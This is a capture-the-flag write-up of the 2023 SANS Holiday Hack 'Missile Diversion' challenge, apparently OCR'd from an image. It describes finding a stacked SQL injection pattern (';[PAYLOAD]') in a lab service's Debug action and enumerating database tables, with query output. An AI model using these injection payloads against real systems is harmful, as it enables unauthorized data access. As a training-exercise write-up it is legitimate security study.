 # Writeup for The 2023 SANS Holiday Hack Challenge: A Holiday Odyssey \| Featuring 6: Geese A-Lei'ing!
## Missile Diversion
Difficulty: :christmas_tree::christmas_tree::christmas_tree::christmas_tree::christmas_tree:  
Thwart Jack's evil plan by re-aiming his missile at the Sun.

### Solution
Re-utilizing the same environment from before, I used the `Consumer Test Tool` to connect to `maltcp://10.1.1.1:1024/nanosat-mo-supervisor-Directory`, start the `missile-targeting-system`, and then connecting to `maltcp://10.1.1.1:1026/missile-targeting-system-Directory`. This exposes the `Debug` Action Service along with 4 Parameter Services: `PointingMode`, returning the current pointing mode, `X` and `Y`, returning the coordinates, and `Debug`, returning the last output from the `Debug` Action Service. Trying to set `X`, `Y` and `PointingMode` was not giving any result. I then tried submitting the `Debug` Action without any input and the `Debug` Parameter Service returned the string `VERSION(): 11.2.2-MariaDB-1:11.2.2+maria~ubu2204`, clearly identifying the interaction with a DB. I tested the action service for common SQL injection by using the attribute value to inject the payload, eventually finding `;[PAYLOAD]` as a resilient injection pattern. I then enumerated the tables in the database and their content

#### **Query**: *`; SELECT * FROM pointing_mode_to_str`*
id: 1 \| numerical_mode: 0 \| str_mode: Earth Point Mode \| str_desc: When pointing_mode is 0, targeting system applies the target_coordinates to earth.  
id: 2 \| numerical_mode: 1 \| str_mode: Sun Point Mode \| str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates. \|
#### as
| ; SELECT * FROM user_variables | java.sql.SQLSyntaxErrorException: (conn-3488) SELECT command denied to user 'targeter @'172.18.0.4' for table missile_targeting system. 'user_variables |
| ; SELECT * FROM messaging | id: 1 \| msg_type: RedAlphaMsg \| msg_data: RONCTTLA \|  
id: 2 \| msg_type: MsgAuth \| msg_data: 220040DL \|
11.2.2-MariaDB-1:11.2.2+maria-ubu2204 \|
id: 3 msg_type: LaunchCode \| msg_data: DLG2209TVX \|
id: 4 \| msg_type: LaunchOrder \| msg_data: CONFIRMED
id: 5 \| msg_type: TargetSelection \| msg_data: CONFIRMED
id: 6 \| msg_type: TimeOnTargetSequence \| msg_data: COMPLETE \|
id: 7 \| msg_type: YieldSelection \| msg_data: COMPLETE \|
id: 8 \| msg_type: MissileDownlink \| msg_data: ONLINE \|
id: 9 \| msg_type: TargetDownlinked \| msg_data: FALSE \| |
| ; SELECT * FROM pointing_mode | id: 1 \| numerical_mode: 0 \| |
| ; SELECT * FROM target_coordinates | id: 1 lat: 1.14514 \| Ing: -145.262 \| |
| ; SELECT * FROM satellite_query | jid: 1 \| object: ........sr..SatelliteQueryFileFolderUtility.......................Z..isQueryZ..isUpdateL..pathOrStatementt..Ljava/lang/String;xp..t.)/opt/SatelliteQueryFileFolderUtility.java \| results: import java.io.Serializable;
# Output removed to shorten report
public class SatelliteQueryFileFolderUtility implements Serializable {
# Output removed to shorten report |


